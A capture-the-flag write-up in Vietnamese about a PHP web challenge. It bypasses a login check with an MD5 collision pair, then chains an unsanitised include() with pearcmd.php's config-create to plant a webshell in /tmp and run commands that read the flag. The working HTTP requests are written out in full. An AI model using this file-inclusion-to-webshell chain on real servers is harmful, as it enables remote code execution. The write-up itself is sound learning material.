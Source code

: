 # 1: Bypass login

```
<?php
    if(isset($_POST["submit"])){
        $username = base64_decode($_POST['username']);
        $password = base64_decode($_POST['password']);

        if(($username == $password)){
            echo 'Username and password are not the same';
        }
        else if((md5($username)===md5($password))){
            $_SESSION['username'] = $username;
            header('Location: admin.php?file=1.txt');
        } else {
            echo "Username: " . $username . "<br>";
            echo "Password: " . $password . "<br>";
            echo "Username_MD5: " . md5($username) . "<br>";
            echo "Password_MD5: " . md5($password) . "<br>";
            echo 'Username and password are wrong';
        }
    }
?>```

Đoạn mã php trên cho ta nhập username và password với điều kiện phải khác nhau

Sau đó chương trình dùng 2 hàm 

```
$username = base64_decode($_POST['username']);
$password = base64_decode($_POST['password']);
```

để giải mã 2 đoạn mã ta nhập vào

Sau đó chương trình lại dùng hàm md5 chúng và so sánh chúng, nếu giống nhau 
ta sẽ được chuyển hướng người dùng đến trang `admin.php?file=1.txt` bằng cách sử dụng hàm `header()`.

Ok vậy ở đây làm sao để 2 chuỗi khác nhau có cùng 1 md5_hash?

search thì ta có https://crypto.stackexchange.com/questions/1434/are-there-two-known-strings-which-have-the-same-md5-hash-value

```
> md5sum message1.bin message2.bin
> 008ee33a9d58b51cfeb425b0959121c9 message1.bin
> 008ee33a9d58b51cfeb425b0959121c9 message2.bin
```
Và encode chúng ta được 2 file encode cũng là username và password

![burp.png](images/burp.png)

Ok vậy ta đã có quyền admin

# 2: RCE

```
<?php
    header('Content-Type: text/html; charset=utf-8');
    session_start();
    if($_SESSION['username'] != null){
    if(isset($_GET['file'])){
        $file = $_GET['file'];
        include($file);
    }
    }
    else{
        die("Only admin can use this");
    }
?>
```

Chú ý đến phần 

```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}
```
Đoạn mã gán giá trị của `$_GET['file']` vào biến `$file` và sử dụng hàm `include($file)` để bao gồm nội dung của tệp tin được chỉ định. Điều này cho phép ta đưa nội dung của một tệp tin vào tệp tin hiện tại.

Ví dụ: Nếu URL chứa tham số file là `example.php?file=content.php`, thì giá trị của `$_GET['file']` sẽ là `content.php`. Đoạn mã `include($file)` sẽ chèn nội dung của tệp tin `content.php` vào tệp tin hiện tại tại vị trí đó.

Ok đầu tiên mình sẽ tạo 1 file và gửi content (webshell) vào file vừa tạo bằng phương thức get 

https://w4rsp1t3.moe/2021/11/26/%E5%85%B3%E4%BA%8E%E5%88%A9%E7%94%A8pearcmd%E8%BF%9B%E8%A1%8C%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E7%9A%84%E4%B8%80%E4%BA%9B%E6%80%BB%E7%BB%93/

GG search thì ta thấy với file `pearcmd.php`

pearcmd.php (hay peclcmd.php) là một công cụ quản lý tiện ích mở rộng bằng command line

![pear.png](images/pear.png)

Ở đây có rất nhiều cmd của pear và với `config-create` ta có thể tạo file mới với 2 tham số đó là đường dẫn đến file pearcmd.php và đường dẫn đến file cần tạo

Đây chính là đoạn mã để ghi và tạo file

```
GET /admin.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=system($_GET[0]);?>+/tmp/asddddd.php HTTP/1.1
```

`/tmp/asddddd.php`: Đường dẫn đến file vừa tạo

`<?=system($_GET[0]);?>`: Content chứa hàm thực thi `system()`

`/usr/local/lib/php/pearcmd.php`: Tham số file với đường dẫn đến `pearcmd.php`

Khi mã này được thực thi, nội dung của tệp tin `pearcmd.php` sẽ được `import` vào tệp tin `admin.php`. Nội dung của tệp tin `pearcmd.php` sẽ được xử lý như mã PHP thường, tương tự như nội dung của `admin.php`. và khi đó ta sẽ thực thi được câu lệnh tạo file như trên với nội dung truyền vào là `<?=system($_GET[0]);?>`

![burp1.png](images/burp1.png)

Vậy là đã tạo được file `asddddd.php` tại đường dẫn /tmp

Tiếp đến chạy đến đường dẫn đó và thực thi lệnh cat flag thôi

```
GET /admin.php?file=/tmp/asddddd.php&0=cat+/flagViTen.txt HTTP/1.1
```

![flag.png](images/flag.png)
